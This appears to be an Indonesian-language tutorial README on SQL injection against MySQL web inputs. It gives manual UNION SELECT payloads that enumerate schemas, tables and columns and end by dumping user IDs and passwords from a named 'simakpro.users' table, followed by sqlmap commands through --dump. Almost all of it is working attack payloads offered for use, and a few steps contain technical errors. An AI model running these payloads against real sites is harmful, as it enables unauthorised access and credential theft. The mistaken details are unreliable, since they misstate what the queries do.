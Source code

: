 ## Langkah-langkah melakukan SQL Injection secara manual
* Mencari tahu apakah inputan memiliki vuln untuk dilakukan sql injection dengan memasukan karakter `' atau "` pada value inputan
* Apabila terdapat vuln, maka masukan script `' ORDER BY n #`, Cth: `' ORDER BY 1 #`, `' ORDER BY 2 #`, `' ORDER BY 3 #`, dst sampai menemukan error, Script ini berguna untuk mengetahui jumlah tables dalam database.
* Apabila memasukan script di URL maka gunakan `' --+`, apabila di inputan maka gunakan `' #` (`--+` penutup script di URL, `#` penutup script di inputan).
* Selanjutnya jika sudah diketahui banyaknya tables, maka jalankan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10 #
```
* Selanjutnya, untuk mengetahui user dan nama database yang digunakan menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,user(),5,6,7,database(),9,10 #
```

* Selanjutnya, untuk mengetahui list database yang tersimpan pada MYSQL, menggunakan script berikut, Cth:
```bash
' UNION ALL SELECT 1,2,3,schema_name,5,6,7,8,9,10 FROM information_schema.schemata #
```
Atau, menggunakan script berikut, jika column output tidak memiliki perulangan, Cth:
```bash
' UNION ALL SELECT 1,2,3,GROUP_CONCAT(schema_name),5,6,7,8,9,10 FROM information_schema.schemata #
```

* Selanjutnya, untuk mendapatkan list tables dari database tertentu, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,table_name,5,6,7,8,9,10 FROM information_schema.tables WHERE table_schema = 'simakpro' #
```
Atau, menggunakan script berikut, jika column output tidak memiliki perulangan, Cth:
```bash
' UNION ALL SELECT 1,2,3,GROUP_CONCAT(table_name),5,6,7,8,9,10 FROM information_schema.schemata #
```

* Selanjutnya, untuk mendapatkan informasi yang lebih spesifik kolom-kolom dari sebuah table, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,column_name,5,6,7,column_type,9,10 FROM information_schema.columns WHERE table_schema = 'simakpro'  AND table_name = 'users' #
```

* Terakhir, untuk mendapatkan record data dalam table yang dipilih, menggunakan script berikut, Cth:
```bash
' UNION SELECT 1,2,3,CONCAT(usrid,' - ',passwd,' - ',level, ' - ', type_user),5,6,7,8,9,10 FROM simakpro.users #
```


## Langkah-langkah melakukan SQL Injection secara otomatis menggunakan SQLMAP
* Mencari tahu apakah aplikasi website memiliki vuln sql injection dengan memasukan script ' secara manual ke inputan.
* Selanjutnya, Masukan perintah berikut untuk mengetahui vuln sql injectionnya
```bash
sqlmap -u "linkinputvulnSqlInjection"
```
* Selanjutnya, Masukan perintah berikut untuk mengetahui daftar isi databasenya
```bash
sqlmap -u "linkinputvulnSqlInjection" --dbs
```
* Selanjutnya, Masukan perintah berikut untuk melihat daftar tables didalam database yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name --tables
```
* Selanjutnya, Masukan perintah berikut untuk melihat struktur tables yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name -T table_name --columns
```
* Terakhir, Masukan perintah berikut untuk melihat record data didalam tables dari nama columns yang dipilih
```bash
sqlmap -u "linkinputvulnSqlInjection" -D db_name -T table_name name_columns,name_columns --dump
```
